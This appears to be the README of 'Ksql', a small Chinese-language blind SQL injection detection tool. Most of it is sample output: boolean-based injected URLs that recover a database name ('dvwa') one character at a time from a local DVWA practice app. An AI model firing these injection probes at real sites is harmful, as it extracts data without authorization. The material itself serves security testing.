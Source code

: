 # Ksql - Blind SQL Injection

------

自己想的一种方式写出来的SQL注入检测的小工具<br>

目前还在开发中，仅增加了Mysql基于布尔类型的盲注检测功能
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="p
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="q
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="r
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="s
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="t
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="u
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="v
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="w
    ['firstName: admin']
    w
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="a
    ['firstName: admin']
    a
    database:  dvwa
    
